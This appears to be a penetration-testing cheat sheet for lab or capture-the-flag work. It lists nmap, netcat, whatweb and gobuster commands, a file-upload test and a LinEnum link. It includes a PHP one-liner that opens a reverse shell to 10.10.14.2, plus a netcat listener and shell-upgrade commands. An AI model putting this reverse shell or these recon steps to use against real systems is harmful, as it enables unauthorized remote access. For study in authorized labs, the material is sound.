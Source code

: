 
## Nmap:

### [Nmap man pages](https://linux.die.net/man/1/nmap)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|`-sV`| scan against the default top 1000 ports
|`--open`| scan only open ports|
|`-oA <filename>`| output all scan formats|
|`-v`| verbose output|
|`-p-`| full TCP port scan (65535)|
|`--script=<script_name>`|script scan|
|<li>`banner`|A simple banner grabber which connects <br>to an open TCP port and prints out anything <br>sent by the listening service within five seconds|
|<li>`http-enum`|Enumerates directories used by <br>popular web applications and servers|


</td><td>

|Full command:|
|----------|
|`nmap -sV --open -oA <filename> <ip address>`|
|**Quick scan**|
|`nmap -p- --open -oA <filename> <ip address>`|
|**Long scan - recommended in second terminal**|

</td></tr> </table>

## NetCat

### [NetCat man pages](https://linux.die.net/man/1/nc)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|`-n`| do not do any DNS or service lookups on any specified addresses, <br>hostnames and ports (don't resolve)|
|`-v`| verbose|
|`-l`| listen for incoming connection rather than initiate a connection|

</td><td>

|Full command:|
|----------|
|`nc -nv <ip address> <port>`|
|Confirm banner|
|`nc -nvlp 80`|
|Listening shell on port 80|

</td></tr> </table>

## whatweb 

### [whatweb man pages](https://manpages.org/whatweb)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|``| |
|``| |

</td><td>

|Full command:|
|----------|
|`whatweb <ip address>`|
|Identify web application in use|

</td></tr> </table>

## Gobuster

### [Gobuster man pages](https://linuxcommandlibrary.com/man/gobuster)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|`dir`| use directory enumeration mode |
|`-u`| string, the target URL or Domain |
|`--wordlist` / `-w`| path to wordlist, recommended:<br> `/usr/share/wordlists/dirb/common.txt`  
|`-e`|print full URLs|

</td><td>

|Full command:|
|----------|
|`gobuster -e -u <ip address/URL> -w /usr/share/wordlists/dirb/common.txt`|
|Scan website, use common.txt wordlist and print the full <br>URLs of discovered paths|

</td></tr> </table>

## File upload testing

|File: | What it does/testing:|
|----------|----------|
|[test_php.php](/assets/files/test_php.php)|Tests if php file can be uploaded to web app|

## Reverse shells:

```php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?> 
``` 
## Upgrade reverse shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
OR
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege escalation checks

|File: | What it does/testing:|
|----------|----------|
|[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)|Automated privilege escalation checks|

## Start Python HTTP server
```python
sudo python3 -m http.server 8080
```